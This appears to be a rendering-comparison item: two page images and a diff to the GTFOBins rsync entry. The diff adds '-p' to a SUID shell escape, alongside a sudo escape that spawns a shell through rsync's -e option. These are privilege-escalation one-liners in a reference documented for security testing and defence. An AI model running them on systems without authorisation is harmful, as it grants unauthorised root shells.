

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rsync.md, in a window 1280 px wide. Shown: the part 462-767 px from the top of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

```diff
--- a/_gtfobins/rsync.md
+++ b/_gtfobins/rsync.md
@@ -5,5 +5,5 @@ functions:
   sudo:
     - code: sudo rsync -e 'sh -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
   suid:
-    - code: ./rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null
+    - code: ./rsync -e 'sh -p -c "sh -p 0<&2 1>&2"' 127.0.0.1:/dev/null
 ---
```
